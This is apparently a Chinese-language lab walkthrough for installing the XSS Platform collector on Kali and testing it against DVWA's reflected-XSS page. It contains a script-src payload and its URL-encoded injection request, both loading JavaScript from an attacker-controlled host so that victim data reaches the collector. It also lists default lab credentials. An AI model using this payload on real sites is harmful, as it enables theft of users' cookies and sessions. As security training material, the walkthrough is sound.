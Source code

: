 XSS 靶场。

## 1 环境搭建

安装依赖

```
┌──(root㉿Kali-24)-[~]
└─# apt -y install lsb-release apt-transport-https ca-certificates
```

下载 PHP 软件包的数字签名

```
┌──(root㉿Kali-24)-[~]
└─# wget -O /etc/apt/trusted.gpg.d/php.gpg https://packages.sury.org/php/apt.gpg
```

添加 php 源

```
┌──(root㉿Kali-24)-[~]
└─# echo "deb https://packages.sury.org/php/ buster main" >/etc/apt/sources.list.d/php.list
```

获取更新列表

```
┌──(root㉿Kali-24)-[~]
└─# apt update
```

下载 libffi6_3.2.1-9_amd64.deb

```
┌──(root㉿Kali-24)-[~]
└─# wget http://ftp.us.debian.org/debian/pool/main/libf/libffi/libffi6_3.2.1-9_amd64.deb
```

> http://ftp.us.debian.org/debian/pool/main/libf/libffi/

安装 libffi6

```
┌──(root㉿Kali-24)-[~]
└─# dpkg -i libffi6_3.2.1-9_amd64.deb
```

安装 php7.4

```
┌──(root㉿Kali-24)-[~]
└─# apt install -y php7.4-fpm php7.4-mysql
```

使 php7.4 开机自启

```
┌──(root㉿Kali-24)-[~]
└─# systemctl enable --now php7.4-fpm.service
```

上传 nginx 配置文件 xuegodxss，移动站点启用目录中

```
┌──(root㉿Kali-24)-[~]
└─# mv xuegodxss /etc/nginx/sites-enabled/
```

修改配置文件 xuegodxss

```
┌──(root㉿Kali-24)-[~]
└─# sed -i 's/server_name xuegodxss\.cn;/server_name 192.168.1.24;/g' /etc/nginx/sites-enabled/xuegodxss
```

启动 nginx 服务

```
┌──(root㉿Kali-24)-[~]
└─# systemctl enable --now nginx.service
```

下载 XSSPlatform

```
┌──(root㉿Kali-24)-[~]
└─# git clone https://github.com/78778443/xssplatform.git
```

> 使用代理记得移除

移动 XSS 平台到站点根目录

```
┌──(root㉿Kali-24)-[~]
└─# mv xssplatform /var/www/html/xssplatform
```

修改文件权限

```
┌──(root㉿Kali-24)-[~]
└─# chown www-data:www-data -R /var/www/html
```

kali 浏览器访问

> http://192.168.1.24/

配置数据库连接信息和管理员账户

| 配置       | 信息        |
| ---------- | ----------- |
| 数据库地址 | 127.0.0.1   |
| 数据库用户 | root        |
| 数据库密码 | mysql       |
| 数据库     | xssplatfrom |
| 管理员     | admin       |
| 管理员密码 | admin       |

## 2 基本使用

启动 Nginx

```
┌──(root㉿Kali-24)-[~]
└─# systemctl start nginx.service
```

登录

>http://192.168.1.24/
>
>管理员  	admin
>管理员密码	admin

查看代码

![查看代码](./../../../../images/XSS%20Platform/%E6%9F%A5%E7%9C%8B%E4%BB%A3%E7%A0%81.png)

> XSS 平台提供一个 js 代码，只需要通过 XSS 加载 js 代码即可使用，和 beef-xss 非常像

选择代码

![选择代码](./../../../../images/XSS%20Platform/%E9%80%89%E6%8B%A9%E4%BB%A3%E7%A0%81.png)

```
<script src=http://192.168.1.24/Q7yYOv?1687665509></script>
```

登录 DVWA

> http://192.168.1.76/DVWA/

> admin
>
> password

进入 `XSS (Reflected)`

提交代码

查看地址栏

```
http://192.168.1.76/DVWA/vulnerabilities/xss_r/?name=%3Cscript+src%3Dhttp%3A%2F%2F192.168.1.24%2FQ7yYOv%3F1687665509%3E%3C%2Fscript%3E#
```

在 XSS 平台查看接受的内容

![在 XSS 平台查看接受的内容](./../../../../images/XSS%20Platform/%E5%9C%A8%20XSS%20%E5%B9%B3%E5%8F%B0%E6%9F%A5%E7%9C%8B%E6%8E%A5%E5%8F%97%E7%9A%84%E5%86%85%E5%AE%B9.png)

---

Refrences

- [XSS Platform](https://github.com/78778443/xssplatform)